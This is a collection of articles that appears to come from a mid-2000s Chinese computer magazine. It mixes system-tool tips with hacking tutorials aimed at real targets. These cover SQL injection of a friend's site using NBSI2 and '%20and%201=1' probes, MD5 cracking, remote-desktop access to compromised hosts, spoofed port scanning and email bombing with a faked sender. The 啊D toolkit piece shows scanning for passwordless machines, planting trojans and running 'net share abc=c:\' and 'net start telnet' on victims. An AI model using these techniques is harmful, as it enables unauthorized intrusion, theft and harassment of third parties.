对于高级用户，也可以分析某个进程的所有句柄。这样有利于我们彻底摸透未知进程包含的属性以及调用的系统进程。首先，我们可以通过软件主窗口“查找”→“查找句柄”，调出查找窗口，这样我们只要在查找窗口里输入查找对象的文件名，回车，即可显示未知进程的相关信息，如图10。


### 4. DLL 动态链接查看

大家知道，动态链接库 DLL 文件，在系统运行中占有举足轻重的作用，很多程序的运行需要共用一个 DLL 动态链接库文件。比如，我们在主窗口“查找”→“查 DLL”，调出查找窗口，输入 `SCCore.dll`（它是 QQ 运行必须的一个动态链接库文件），回车，查出此文件，如图11。


然后，双击查出的这个文件项，我们在进程列表栏的下方，可以看到列出了有关 QQ 运行所必须的所有 DLL 动态链接库文件，红色高亮显示为先前在“选项”→“配置高亮显示”里设置好的“重加载的 DLL”项，如图12。


双击 DLL 列表文件，这里还选择 `SCCore.dll`，可以看到这个 DLL 文件的属性，如图13。


设置后，系统即可为此应用程序分配较多的资源，使其运行更加顺畅。

> 提示：如果我们发现常用软件出现异常功能，或遭受替换程序影响，在 Windows 任务管理器中可按下 “Alt”+“Ctrl”+“Delete” 组合键调出任务管理器进行处理。使用该工具进行调试会更方便（见图15）。


### 二、进程加速

与我们平常使用常用软件一样，也可以给使用频繁的软件进程设定高的优先级，以使它能够更好地运行，尤其是 3D 做图类需大量消耗系统资源的软件。具体地，我们只要在进程一栏里，选中该程序进程，右键选“设置优先级”→“高”，如图14。

> 软件小档案  
> - 软件：Process Explorer  
> - 软件大小：2.6MB  
> - 平台：WIN NT/2000/XP  
> - 下载地址：http://www.onlinedown.net/soft/19289.htm  
> - 汉化下载：http://www.***.com/soft/27957.htm（转译）

## 巧修改DLL文件  
### 焕然一新的Outlook

李跃

你是否习惯了每天收发邮件时，面对千篇一律的“Outlook今日”启动画面。其实，Outlook 提供了多种不同风格的自定义选项，允许用户进行不同设置。文章介绍通过修改 `OUTLVVW.DLL` 中的 HTML 代码来改变“Outlook今日”的显示界面，并给出工具与操作思路。

在开始操作之前，需要准备 HTML 基础知识与资源编辑工具 Resource Hacker（文中给出下载地址），并以 Outlook 2003 作为示例。

- 1. 搜索 `OUTLVVW.DLL`，一般位于 `C:\Program Files\Microsoft Office\OFFICE11\2052` 目录（英文版本常见为 `1033`）。先备份后再用 ResHacker 打开。  
- 2. 在资源树中找到 `OUTLOOK.HTM` 及 `OUTLOOK1.HTM` ~ `OUTLOOK4.HTM`，对应“自定义Outlook今日”中的不同样式选项。  
- 3. 打开 `OUTLOOK.HTM` 后修改 HTML 代码，可在标识处加入搜索代码或新闻代码（文中示例为网页搜索代码）。  
- 4. 可继续加入背景图片，将 `<BODY>` 标签改为包含 `BACKGROUND='file:///c:/mm.jpg'` 这类路径形式。  
- 5. 修改完成后执行 `Compile Script` 重新编译并保存，最后覆盖安装目录下同名文件。

Outlook 2003 以前版本的修改方式大体相同。若想进一步美化界面，需掌握一定 HTML/CSS 基础。


## 创建个人IP与域名之间的桥梁

随着宽带网络普及，很多网友都希望拥有自己的个人免费网站。但免费空间越来越少且不稳定，因此不少人希望在自己的电脑上架设网站。问题在于普通拨号/宽带用户通常获得的是动态 IP，域名与动态 IP 的对应关系需要借助专门服务。

“蜘蛛精”就是用于固定域名与动态（非固定）IP 地址实时对应（解析）的服务。其作用是让用户无论何时、何种方式上网，即使 IP 变化，也能通过固定域名访问到目标主机，从而实现互联网互联。

### 1. 注册帐号

软件运行后主界面如图1。首先需要注册帐号：在蜘蛛精网（`www.plrj.com`）用户专区点击“注册”，按提示完成。文中示例帐号为 `hjz007`，密码为 `123456`。


### 2. 软件设置

进入设置页面，然后点击下部的“添加”按钮（如图2）。


将您申请的蜘蛛精账户信息添加到账户列表中。在“用户名称”项中填写您申请的账户名称；“访问密码”项中填写密码；“服务类型”项中选择您提供服务的类型（如 Web 选择 `Http://`，Ftp 选择 `Ftp://`）；“虚拟目录”一项中填写您的虚拟目录，默认是站点的根目录。还可以在该项中填入其他目录。例如媒体服务可设置为 `/movie/...`，这样别人通过对应 URL 即可访问或播放您设定的文件。

> **注意：**  
> 如果您是公网用户，在虚拟目录中可直接填写目录（如 `/movie/`）；如果是内网用户，请在虚拟目录前加“:`您的端口号`”再加路径（如 `:8080/movie/`）。

您还可以设置 URL 转向，当别人访问您的站点时将被转到您设置的站点。另外，也可以在账户列表中添加多个账户。最后点击“确定”按钮，设置完成。

### 3. 站点的访问

赶紧通过 `http://plrj.com/您的账户名` 或 `http://您的账户名.plrj.com` 访问您的站点。以后即使 IP 地址变化，也可通过域名访问到您在自己电脑上建立的网站。最后进行告别：蜘蛛精是免费软件，大小约 1.20MB，适用 Win9x/NT/2000/XP，下载地址为 `http://www.plrj.com/download/soft/SpiderIP.rar`。


*独钓寒江雪*

近来常有小菜鸟问服务器名与显示名的区别。很多软件里常遇到 `servername`，而用户不清楚其含义，容易把显示名误当作服务名输入，导致启动失败。本文给出一个简明方法来快速查清服务名。

方法是使用 `NETSVC.EXE`。在命令行输入 `netsvc.exe` 回车可查看帮助，再用 `netsvc /list \\计算机名` 列出该机器已安装服务；左侧尖括号字段是服务名，右侧为显示名。若无显示名会提示无。

```text
netsvc.exe
netsvc /list \\jocs486
netsvc /list \\xinu
```

```text
Installed services on \\xinu:
<AliDisk> ...
<...>
<KAVsvc>  Display name is <Kingsoft AntiVirus Service>
<...>
```

文中示例指出：如可据列表得知某服务名是 `KAVsvc`，其显示名为 `Kingsoft AntiVirus Service`；注册表相关服务名可为 `RemoteRegistry`，显示名可能为 `remote registry`。显示名中可能有空格，启动时应使用服务名，例如 telnet 的服务名为 `tlntsvr`，避免使用 `sc start telnet` 这类错误写法。

```text
<Kbdclass> Display name is <Keyboard Class Driver>
<...>
<KMixer> Display name is <Microsoft Kernel Wave Audio Mixer>
<...>
```

```text
<Rdpdr> ...
<Renot...> ...
<RpcLocator> Display name is <Remote Procedure Call (RPC) Locator>
<SCardSvr> Display name is <Smart Card>
<Schedule> Display name is <Task Scheduler>
<...>
```

# 傻瓜黑客


还有一种方法可以知道某个服务的服务名是什么，如图6。


双击金山病毒特征库的显示名，在“可执行文件的路径”栏里的文件名便是其服务名，如图7。这种方法简单吧，不过并不是所有的服务都可以这样显示的，这一点要注意哟！

接着是启动某个服务的问题，这里用大家都熟悉的 `sc.exe`，它是专门用来启动服务的，在命令行下键入 `sc` 会有，或者看到它的详细用法。`sc` 主要是用在已被控制的电脑上。如启动 `remoteregistry`，则键入 `sc start remoteregistry`，却出现了“startservice failed”，如图8，为什么？很简单，`remoteregistry` 服务已被禁用了，当它的启动类型不为“已禁用”时，你才能顺利启动它。


`sc` 其它的命令用法就请各位自己探索吧，黑客的乐趣就来自于不断探索之中……（文章中涉及到的程序 `netsvc.exe`、`sc.exe` 已收录于光盘中）

## 我用NBSI侵了FreePower一回  
### 浅议NBSI特征字符的查找

小七

在文章的开始，首先说一下，这篇文章只适合初入“黑道”的小菜们看，老鸟们就可以直接跳到下一篇文章，我也是第一次写文章，难免会有一些不足之处，还望大家指正。

在04年12月X的小册子里，有一篇讲注入潮州人网站的文章，其中有一个关键步骤就是输入特征字符“id”，那好，本文就通过注入 FreePower Ver 3.6 Sp2（新版本的 FreePower 已经补上了这个漏洞），浅谈一下特征字符的查找办法。

一日无聊至极，实在没有什么好玩的东西，就把几个朋友的网站逛了个遍，最后来到朋友甲的网站（嘿嘿，后来才知道是自助动力文章系统。有一篇对榕哥的访问，榕哥可是我的偶像呀，点开看看采访内容。不过那篇文章的地址却引起了我极大的兴趣，嘿嘿，有玩的了，顺手在地址后面加了一个 `%20and%201=1`，结果如图1。看来没戏，也是，如果这么白痴的漏洞还存在的话，这个文章系统早就混不下去了。看完文章，就回到了朋友网站的主页，嗯，这小子的网站人气不怎么样，才有7个注册会员，点开朋友的个人简介（我这人无聊的时候就喜欢看别人的个人简介）！这个地址怎么也这么招眼（图2），嗯嗯，在地址后面加了 `%20and%201=1`，返回正常页面，再加个 `%20and%201=2`，返回一个空白页面，嘿嘿，有希望！手工注入太麻烦，那好，请出我们今天的主角——NBSI2，把那个个人简介的地址复制到NBSI2的“注入地址”框里，点检测，waiting……竟然显示“暂未检测到漏洞”，没有希望了吗？其实不然，不知大家有没有注意 NBSI2 的“特征字符”一栏变为可写了，好，我们来找特征字符，其实特征字符就是加上 `%20and%201=1` 和 `%20and%201=2` 返回的两个页面源文件不同的地方（我建议大家在加了 `%20and%201=1` 返回的页面的源文件中找一段不同的地方，有时我在加了 `%20and%201=2` 返回的页面的源文件里找的特殊字符不能用，不知怎么回事），我找了一段 “font-size: 9pt;”，复制到“特征字符”栏中，再按“再检测”，哈哈，出来了（图3）。


下面怎么办就不用我说了吧，嗯嗯，我用 NBSI 咬了 FreePower 一口！最后推荐两款破解 MD5 加密密码的工具，一款 GUI 界面下的 MD5Crack2，一款 DOS 界面下的，速度非常快！其实，NBSI2 的功能真的很强大，可以这样说，只要加上 `%20and%201=1` 和 `%20and%201=2` 返回不同网页的网站都能注入成功！好了，文章很短，希望大家喜欢！（文章中涉及到的程序 NBSI2、MD5Crack2、dv 已收录于光盘中）


自从 RPC DCOM 蠕虫出来之后，很多内网被搅乱。本文介绍命令行下的 IPsec 配置工具 **IPSECPOL.EXE**（Windows 2000 Resource Kit 中），用于创建、指派和删除 IPsec 策略。并说明其工作依赖的 DLL（如 `text2pol.dll`、`ipsecutil.dll`）及在目标机器部署的注意事项。

### 一、常用参数介绍

- `-w TYPE:DOMAIN`：策略安装方式（常见 `REG`，写入注册表）
- `-p PolicyName`：策略名
- `-r RuleName`：规则名
- `-f`：过滤规则
- `-x`：指派策略
- `-y`：不指派（停止）该策略
- `-o`：删除该策略

其中 `-w`、`-f`、`-n` 等参数区分大小写，示例中多使用大写。

### 二、一些例子

- 1. 阻止所有地址的所有端口到本机所有端口通信  
- 2. 阻止任意主机访问 `192.168.0.88` 的 TCP 22 端口  
- 3. 阻止 `1.2.3.4` 的 TCP 2938 访问本机 6667  
- 4. 阻止本机 TCP 3333 连接任何主机任意端口  
- 5. 阻止本机对所有地址通信  
- 6. 阻止某段主机的某端口连接本机 UDP 7788  
- 7. 阻止某段主机某端口连接另一段主机某端口  

```bash
ipsecpol -w REG -p "filter" -r "block" -f *+0 -n BLOCK
ipsecpol -w REG -p "filter" -r "block" -f *+192.168.0.88:22:TCP -n BLOCK
ipsecpol -w REG -p "filter" -r "block" -f 1.2.3.4,2938+0,6667:TCP -n BLOCK
ipsecpol -w REG -p "filter" -r "block" -f 0,3333+*:TCP -n BLOCK
ipsecpol -w REG -p "filter" -r "block" -f 0+* -n BLOCK
ipsecpol -w REG -p "filter" -r "block" -f IP/mask:port+0,7788:UDP -n BLOCK
ipsecpol -w REG -p "filter" -r "block" -f IP/mask:port==IP/mask:port:协议 -n BLOCK
```

### 三、注意

多个过滤条件应尽量在同一条命令中连续写多个 `-f`，避免分多次输入导致后一次覆盖前一次。例如同时禁止 TCP 6666 与 8888：

```bash
ipsecpol -w REG -p "filter" -r "block" -f *+0,6666:TCP -f *+0,8888:TCP -n BLOCK
```

还需注意：若 `-f` 中某参数缺省，表示所有端口或协议；`+` 与 `=` 分别表示“从哪里到哪里”的不同方向语义，需与示例对应清楚。

### 四、指派、不指派和删除

策略配置完成后需要“指派”才生效。停止（不指派）和删除时也有对应命令，删除通常应先执行不指派。

```bash
# 指派
ipsecpol -w REG -p "筛选器名" -x

# 不指派（停止）
ipsecpol -w REG -p "筛选器名" -y

# 删除策略
ipsecpol -w REG -p "筛选器名" -o
```

### 五、编写脚本

通过批处理脚本可为大量机器快速下发不同规则，便于统一配置和局部修改。

```bat
:: ipsecpol.bat（节选）
ipsecpol -w REG -p "filter" ... -n BLOCK
...
ipsecpol -w REG -p "filter" "allow" -f 192.168.0.18+0,445:TCP
```

```text
in PASS
ipsecpol -w REG -p "filter" -x
```

上面这个例子是禁止掉上述从远程任何主机的任何端口连接本机的上述 TCP 和 UDP 端口（注意是写在一行里面，如果使用写字板写的话，保险起见不要使用自动换行）和允许 192.168.0.18 的任何端口访问本机的 445 端口，最后一句 `ipsecpol -w REG -p "filter" -x` 是指派这个策略。

上面的禁止部分是随意写的，自己配的时候不要对号入座，且 “filter”“block”“allow” 可以随便自己改成好记的。随后介绍在没有安装 Windows 2000 Resource Kit 时复制 `text2pol.dll`、`ipsecutil.dll` 配合 `ipsecpol.exe` 与 bat 的方法，以及相关注意事项。

另外，`ipsecpol.exe` 还提供远程配置功能；文中给出了作者主页下载位置、邮件联系方式，以及关于脚本规则可后续通过 GUI 调整的说明。


各位菜鸟们经常使用 3389 登录网吧破解之类的线上服务页面吧……文中介绍将程序“镶嵌”在网页中的思路，并提到常见的 Tegoweb Express、ActiveX 控件配合及生成文件方式。

这类页面的制作并非特别困难，关键在于理解网络知识与流程。作者给出示例任务：制作一个提供 3389 远程登录功能的线上服务页面，并列出所需工具与准备目录。


- 1. **步骤一**：在安装向导第一个界面选择程序文件目录（如 `mstsc`），并填写网页发布 URL（示例为 `http://.../hd`）。  
- 2. **步骤二**：点击 `next` 后选择程序名，需包含 `mstscax.dll` 与 `mstsc.exe`，尤其不要漏选 `mstscax.dll`。  
- 3. **步骤三**：继续下一步，填写生成目录与 ActiveX 目录（如 `/hd/mstsc/` 与 `/hd/ActiveX/`），最终生成控件文件。  


# 傻瓜黑客

**步骤四：** 终于到最后一步了。在第一栏填写生成的网页文件名，随便取啦（我取为 `*.html`，这里的 `*` 你可以自己随意取名）。在第二栏填写生成的网页文件的标题，我就取名为“http://glx.yao2.com 欢迎你的到来”。最后一栏是将要生成的 `exe` 程序的文件名，嫌麻烦的话就别动它了，没多大关系的（图5）。下面的那个选项“Minimize Download Time”是编写脚本用的，但是只对注册用户才开放，所以根本不能选择。


设置完毕后，点“finish”生成需要用到的文件吧，它们会保存在刚才的那个 `C:\Documents and Settings\sa\桌面\mstsc` 下的一个新文件夹 “TegoWizardWebExpressProject” 下（图6）。


**步骤五：** “TegoWizardWebExpressProject”文件夹下包含了三个子文件夹（图7），它们分别是：


ProjectFiles（没有多大用处，全是些配置的基本信息，不用理会它）、Release（重要啊，里面全是最主要的文件，一会儿将要把这里面的文件上传到步骤三中配置的空间目录“/id/mstsc”下，千万别弄丢里面的文件，如图8）。


ReleaseActiveX（包含的全是 ActiveX 控件，它是线上服务正常运行的保证，将要上传到步骤三中配置的空间目录 `hd/ActiveX/` 下，如图9）。

> 注意：这两个文件夹中有解压缩文件，不要进行解压缩，直接上传就可以了。

OK！一切都做完了，打开 cuteftp 进行上传吧，再次声明一：Release 文件夹下的所有文件上传到空间的 `/id/mstsc` 目录下，ReleaseActiveX 文件夹下的所有文件上传到空间的 `hd/ActiveX/` 下。


如果你跟我一样是个追求完美的人，那就将生成的 `heidan.html` 文件修改一下使其美观，但是要注意修改，因为里面的代码非常复杂，稍不注意就会影响工作。上传好了，我敲入网址“http://glx.yao2.com/id/mstsc/*.html”（这里就不给出具体的地址了），输入3389对应的地址后稍微等待片刻即可连接上肉鸡（图10），呵呵！速度和 exe 程序一样快。


怎么样，学会了吗？够酷吧！

（文中涉及到的程序 `mstscax.dll`、`mstsc.exe`、`Tegoweb Express` 已经收录于光盘中）

## “眼骗”扫描利器 —— Ipeye

提到欺骗扫描，大家一定会马上想到 Nmap 这个经典的工具。而我向大家推荐的是另一款端口扫描、欺骗工具——Ipeye。

Ipeye 是一个集端口扫描、欺骗于一体的端口扫描工具，这个工具估计国内使用的用户不会太多，知名度也就更不用说了。前些天在国外的一个网站发现这个工具的介绍并经过几次测试使用之后，发现这个工具与其他端口扫描工具相比，的确有它出色的一面。现在让我来介绍这个工具的特点。

Ipeye 是一个 TCP 协议的端口扫描工具，提供了 SYN、FIN、Null 以及 Xmas 方式的扫描。它只能运行于 Windows 2000/XP 下面，Ipeye 只有单一的一个文件，大小也只有 32K 多一点。

Ipeye 可以在本地或远程运行，不过需要具有 admin 的权限（因为用到了 syn 扫描），大家如有兴趣，可以到 `http://www.ntsecurity.nu/toolbox/ipeye` 下载这个工具。现在用几个实例来讲解 Ipeye 的使用方法：

Ipeye 的使用语法如图1。


# 傻瓜黑客

我向大家具体地描述一下各语法的功能，这样初学者朋友可以更好地掌握 Ipeye 的使用。

- **target IP**：要进行扫描主机的 IP 地址。
- **scantype**：扫描模式（如 syn、fin、null、xmas）。
- **-p**：指定扫描端口范围（如 `1 1024`）。
- **-sip \<source IP\>**：IP 地址欺骗参数。
- **-sp \<source port\>**：源端口伪装（如 80 端口）。
- **-d \<delay in ms\>**：扫描延迟时间（毫秒）。

现在我们利用 Ipeye 对一台主机进行一次简单扫描，目标机器 IP 为 192.168.0.2 的 1 到 1024 端口，语法如下。

```bash
ipeye 192.168.0.2 --syn -p 1 1024
```

Ipeye 显示扫描结果的方式与其他扫描工具不同：将未扫描、关闭、打开端口分段显示，并未直接提供 BANNER 信息。


图 2 是一个普通的端口扫描过程。随着防火墙与 IDS 普及，普通扫描往往会留下明显记录。

```bash
ipeye 192.168.0.2 --syn -p 1 140 -sip 202.96.128.68 -sp 80 -d 1000
```


> 在扫描发现 IP 地址过程中，获取到的 IP（如 192.168.0.2、1.68.0.2）进行欺骗将得到不同结果。

现在我们来到被扫描主机，查看防火墙记录。通过对比可见，扫描行为会被 BlackICE 捕获并记录。


再看进行 IP 地址欺骗扫描后，BlackICE 捕获并记录相关信息（图 6、图 7）。


对方机器 BlackICE 捕获到的相关信息主要是被欺骗 IP 地址的信息，但未捕获到 DNS 相关内容。


这种扫描欺骗的方法较上面直接扫描，确实通过 IP 地址欺骗蒙混了很多。

有些时候，我们需要将 Ipeye 的扫描结果保存到指定的文件，以便日后查询等等。

Ipeye 并没有提供扫描保存的功能，但可以在该扫描的语法末端再加上“>”号，然后再输入保存的文件名，即可实现对整个扫描结果的保存。如将上例的扫描结果保存为 ipeye.txt 文件，则语法是：

```bash
ipeye 192.168.0.2 --syn -p 1 140 -sip 202.96.128.68 -sp 80 -d 1000 > ipeye.txt
```

Ipeye 使用后给我的感觉是它的很多功能跟 Nmap 类似，如半开放式扫描、IP 地址欺骗等等。不过，由于 Ipeye 是直接为 Windows 2000/XP 用户制作的，对 Windows 2000/XP 在某些方面上讲它要比 Nmap 强。而 Ipeye 最让我喜欢的地方莫过于它的 IP 地址欺骗、指定远程端口及半开式扫描这两个功能。

进行扫描时，自身的安全还是要放在第一位。由于 Ipeye 只是一个纯粹的端口扫描工具，没有提供识别 Banner 的相关信息，使得不少人不太适应它的风格；不过，也正是这个原因，使得我们对识别目标主机的 Banner 信息提供了进一步认识的机会，不会被扫描工具默认提供的 Banner 信息所迷惑。另外，Ipeye 只能一次扫描一个 IP 地址，这个多少算是这个工具的一个缺陷。

好了，关于 Ipeye 的介绍就说到这里，关于 Ipeye 的更多使用信息、技巧等等，大家可以到 http://www.ntsecurity.nu/toolbox/ipeye 参考相关信息。

## 随心邮件炸弹——邮件服务器的噩梦


在互联网高速发展的今天，自由、方便、快捷无疑是蕴涵其中最关键的几个特点了。在网络把世界变成一个村落的过程中，人与人之间的通讯方式也发生了翻天覆地的变化。EMAIL（电子邮件）已经成了一种时尚，并终将扮演传统信件终结者的角色。

在我们充分享受 EMAIL 给我们带来的通讯交流方面的便利时，也给我们带来一些其他的东西。邮件炸弹就是其中之一！所谓的电子邮件炸弹，指的是邮件发送者利用特制的电子邮件软件，在很短的时间内连续不断地将邮件邮寄给同一个收信人，在这些数以千计的大容量信件面前收件箱肯定不堪重负，而最终“爆炸身亡”。

年轻人的一个特点就是好奇心重，作为同是年轻人的你我来说，在看到上面那么多形容邮件炸弹的文字后，难道不想一试身手吗？如果想，就请 FOLLOW ME！

这种邮件炸弹软件我们在 Internet 上可以随意下载得到，今天我们要介绍的就是其中的一款“随心邮件炸弹”。该程序的特点是：程序本身自带 SMTP 服务器，可以直接控制对方的邮箱地址，快速高效；支持发送邮件地址列表；发送次数可以自定义；DNS 服务器可自定义为高速 DNS 地址，也可以取本机的 DNS 地址；发送人的 MAIL 地址可随意更改，包含 @ 符号就行了。

程序是绿色程序，免安装，所以我们直接解压缩后就可以使用了，运行后的界面如图 1。

怎么样？是不是做得还挺好看的？在左边的列表框填入要攻击的邮箱地址，然后我们再为每个邮箱设置发送次数，也就是重复发送的次数，接着勾选写邮件的主题，这个随便写就可以了。发送人地址可以随便填写（你不会诚实到填上自己真实的邮箱地址吧！），但必须包括 @ 符号，如图 2。

接着怎么做，不用我说吧？直接点击“发送”按钮就可以了，简单吧！垃圾邮件就是这么做出来的。


## 非管理员身份如何自由地运行软件

使用 Windows 2000/XP 的用户都知道，如果我们以管理员身份在系统上安装了某种软件，并在管理员账号下运行它，通常能正常运行；但切换到 Users 组中的普通账号时，可能会弹出错误提示（如“不能创建子键”等）。问题根源往往不是程序本身，而是当前用户对某些注册表子键没有写权限。

标准 Windows 程序通常应把与机器相关的设置写入 `HKEY_LOCAL_MACHINE\SOFTWARE`，把用户个人设置写入 `HKEY_CURRENT_USER\Software`。但有些程序会把本应写在用户项下的数据写到 `HKEY_LOCAL_MACHINE`，在 Windows 2000/XP 下普通用户对此只有读取权限，导致程序无法写入而运行异常。

解决思路是定位程序实际写入的注册表位置，然后调整权限。可运行 REGEDIT，定位到 `HKEY_LOCAL_MACHINE\SOFTWARE` 下对应键，右键“权限”，给 USERS（或需要的普通用户组）授予适当写入/修改权限。


按上述步骤完成后，重启并再次运行软件，原先的错误提示消失，说明注册表权限问题已被修复。


石勒

TFTP（Trivial FTP）是获取 WebShell 后常见的上传方式。很多入侵者会直接输入类似 `tftp -i ip get` 的命令进行探测；这里的 IP 通常属于入侵者自己。可以利用这一点，通过伪造或替换 TFTP 程序记录其来源地址。

### 一、编程

```c
#include <windows.h>
#include <stdio.h>
int main(int argc,char *argv[]){
    int len;
    FILE *fp;
    ...
}
```

```c
SYSTEMTIME lpTime;
if(argc>=3){
    len=strlen(argv[2]);
    if(len<=15){
        fp=fopen("ip.sav","a");
        GetLocalTime(&lpTime);
        fprintf(fp,"%d-%d-%d ",lpTime.wMonth,lpTime.wDay,lpTime.wYear);
        fprintf(fp,"%d:%d:%d ",lpTime.wHour,lpTime.wMinute,lpTime.wSecond);
        fputs(argv[2],fp);
        fputs("\n",fp);
        fclose(fp);
    }
}
```

代码核心是把命令行参数中的 IP 写入 `ip.sav`，并附加时间戳。为避免写入异常超长字符串，可限制参数长度（如不超过 15 个字符，对应 IPv4 文本长度）。这样当对方用该程序上传时，就会留下可追踪日志。

### 二、讨论

将编译后的“伪 TFTP”替换到目标环境后，若有人尝试通过 TFTP 上传，`ip.sav` 中会出现访问记录。该方法更像一种取证/诱捕小技巧，不能替代系统安全加固，但在日志被清理时，可能提供额外线索。

```text
1-16-2005 21:41:18 [192.168.12.11]
1-16-2005 21:41:35 [192.168.12.12]
1-16-2005 21:45:40 [192.168.12.13]
```

这种做法只能增加一点被动防护和追踪能力，真正安全仍需依靠权限控制、补丁更新、最小暴露面与日志集中审计。

## 3 维护你的网络状况

——网络测试之 Qcheck 篇

作为网络维护人员，除了需要了解网络的拓扑结构以外，更要时刻关心网络的“健康状况”，比如网络的连通率、吞吐能力、负载水平等等。这样才能根据网络的实际情况进行相应的调整、配置和管理，使网络运行在最佳的状态之上。而要了解网络的“身体状况”，当然少不了各种网络测试工具。今天先给大家介绍的是 Qcheck。

> Qcheck 小档案

- 软件版本：V1.3
- 软件大小：5598KB
- 软件性质：免费软件
- 适用平台：Win9x/Me/NT/2000/XP
- 下载地址：http://216.48.12.100/download/qcinst13.exe

Qcheck 是 NetIQ 公司推出的网络应用与硬件测试软件包 Chariot Suite 的一个组件，被称为“Ping”命令的扩展版本。它的主要功能是通过 TCP、UDP、IPX、SPX 等协议向网络发送数据流来测试网络的吞吐率、回应时间等，使用前需要先安装 NetIQ 公司的 Endpoint 软件。Endpoint V3.2 下载地址：http://download.netiq.com/products/pe/endpoints/gsendw32.exe

安装 Endpoint，并将测试电脑的 NetIQ Endpoint 功能启用（以 Windows 2000 为例：控制面板 → 管理工具 → 计算机管理 → 服务和应用程序 → 服务 → NetIQ Endpoint），如图 1。


然后安装并启动 Qcheck，大家可以发现程序界面很像一个网络测试仪，如图 2。

### 一、设置

### 1. 选择端点

单击“From Endpoint 1”的下拉箭头选择“localhost”作为第一个测试点，然后在“To Endpoint 2”框中输入所要测试的主机 IP 地址或域名，这样就可检测这两个端点之间的网络性能。


### 2. 选择协议

在“Protocol”区域中共有四种网络协议类型，分别是：TCP（传输控制协议）、UDP（用户数据报协议）、SPX（顺序包交换协议）和 IPX（互联网信息包交换协议），我们可以单击协议名称后面的绿色按钮进行选择。

### 3. 参数设置

- **Response Time（响应时间）**：测试两个端点之间传输指定大小数据包所用时间，可在“Iterations”和“Data Size”框中输入重复次数和数据量（bytes）。
- **Throughput（吞吐能力）**：测量两节点使用 TCP 协议时每秒成功送出的数据量，可在“Data Size”中输入数据包大小。
- **Streaming（UDP or IPX）**：测试 UDP 或 IPX 数据流的丢包率及数据传输量；在“Data Rate”中输入数据包大小并选择单位（Kbps/Mbps），在“Duration”中输入持续时间（秒）。
- **Traceroute（TCP or UDP）**：追踪 TCP 或 UDP 经过的路由。

### 二、使用

选择好测试端点、协议和参数后，单击程序下方的“Run”按钮进行测试，结果将在结果栏中显示。以测试 TCP 响应时间为例，结果如图 3，其中的“Minimum”“Average”和“Maximum”分别为响应时间的最小值、平均值和最大值，其他类型测试也有相应结果提示。


如果想了解更详细的测试结果，可以单击“Details”按钮，将会在浏览器窗口中显示详细信息，如图 4。除测试状态栏中的简略结果外，还有测试端点的信息，包括操作系统版本、内存大小等。


Qcheck 作为“Ping”命令的扩展版本，使用图形化界面代替了命令行提示符，通过形象化设置代替了“Ping”命令的各类繁琐参数，可以对各种协议进行多种网络状况测试，功能强大而操作简便，测试结果准确直观，可以使我们快捷方便地了解网络状况，称得上网络维护人员的“探路先锋”。

# 傻瓜黑客


朱远喜

近日，笔者的朋友收到一位网友发来的文件，文件名为“QICQPASS”，图标为一只可爱的小企鹅。对方声称该文件可增强 QQ 聊天保护功能。运行后无提示，但任务管理器中出现 SMTP 任务，后确认为病毒并被清除。清除方法特此写出来供参考。

该病毒伪装成 OICQ 密码杀手，主程序为 OICQPASS.exe，并配有配置文件（如 xxc.dll）记录邮箱地址。其会窃取 QQ 密码并通过邮件发送；修改密码后仍会被再次盗取。

使用瑞星、QQ 病毒专杀等工具未发现后，改为手工清除：先删除病毒文件，再到注册表 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 查找相关启动项并清除；随后在系统目录排查同名文件。重启后发现仍有 SMTP 进程，继续排查注册表与系统目录，最终定位到伪装文件 `Winserver.exe`，清除其启动项后恢复正常。

该病毒通过伪装与镜像文件迷惑用户，并在启动项中驻留。彻底清除后，机器恢复正常。

## 菜鸟的黑客利器——啊D网络工具包

闪电精灵

其实我不想成为一名黑客，我是守法网民，上网主要是聊天、游戏、下载与浏览资讯。但电脑曾多次遭遇入侵。后来接触“啊D网络工具包”后，不仅能修补漏洞，也能识别常见薄弱主机。该工具使用简单、功能较强，下面介绍其中一个功能。


### 一、肉鸡查找

利用“肉鸡查找”可扫描网段内 NT/Win2000/XP 等主机，识别弱口令与系统版本。点击该标签后，在“IP”栏输入起始地址（如 `10.178.107.2`），在“到”栏自动补全网段结束地址（如 `10.178.107.255`），点击开始扫描。稍后可在结果列表看到多台主机及用户名信息，未设密码的主机即为目标弱点主机。


### 三、种植木马

如果对方使用的是 Win2000，那么我们点击界面下部的“Win 2000 远程管理”就能登录到对方的电脑上，如图 3。


下一步你就可任意操作了。或点击“远程启动 Telnet”登录到对方的电脑。文中说明作者未能在 Win2000 中获得理想结果，但在 Win XP 中测试成功，并引出“种植木马”功能：将预先配置的木马服务端上传到对方主机并运行。


点击“种植木马”后进入图 4 所示窗口。点击“本地文件”右侧按钮选择木马文件，然后点击“开始”。若返回成功信息，则对方主机被植入；若失败，可尝试更换用户或在其他主机上操作。

文中进一步说明：即使“本地文件”留空，也可通过“启动命令”执行命令，例如在对方机上共享 C 盘并启动 Telnet 服务，随后可继续访问该共享目录。

```bash
net share abc=c:\
net start telnet
```

### 三、访问共享资源

共享查找可用于搜索网上共享资源。文中示例中由于对方 C 盘共享为 ABC，因此在共享查找中可检索到该主机 IP，展开后可查看共享目录；选择目录后点击“映射”可将其映射为本地盘符，便于像访问本机磁盘一样访问。

（右栏）映射成功后，点击右侧“打开”即可访问映射盘。作者指出该方式方便但传输速度较慢。


### 四、搜索 MAC

想知道一个网段中当前有多少台电脑开机，可用“网卡 MAC”功能。设置起止 IP 后点击“读取”，可得到在线主机的 IP 地址、用户名、工作组及网卡 MAC。


该结果可为“共享查找”提供依据。文中比较了 MAC 搜索与共享查找：前者速度快、只要主机开机通常可见；后者较慢且仅显示满足共享条件的主机，因此可能出现网段内“查不到”的情况。

### 五、防范措施

- 查看网络状态

使用“网络状态”功能可查看本机开放端口、连接 IP 与端口号；点击“常用端口列表”可查看端口用途说明（如 1、2、80、137、139 等）。

# 傻瓜黑客

- `(NetBIOS-SSN) 1243—Sub-7木马，12345—NetBus木马默认端口`，如果发现不正常连接要断开。  
- **查看系统进程**：使用“进程查看”检查运行软件，发现木马需按提示删除相关文件和注册表。  
- **停止服务**：在 DOS 下输入 `net stop server` 停止 Server 服务，防止共享与 IPC$ 被利用。  

“阿D网络工具包”还有 IP 端口扫描、查看整网主机、IP 定位、Ping、域名与 IP 转换、路由查看等功能，并附带一些常用 DOS 网络命令介绍。

> （本文涉及到的工具：阿D网络工具包，见盘有收录）

## 你收到的文件安全吗？

讨论如何判断网友发来的可执行文件是否为木马或捆绑文件。建议先不要直接运行，可用 WinHex 等十六进制编辑器检查文件结构，搜索字符串如 `This program`，并结合可疑特征做判断。

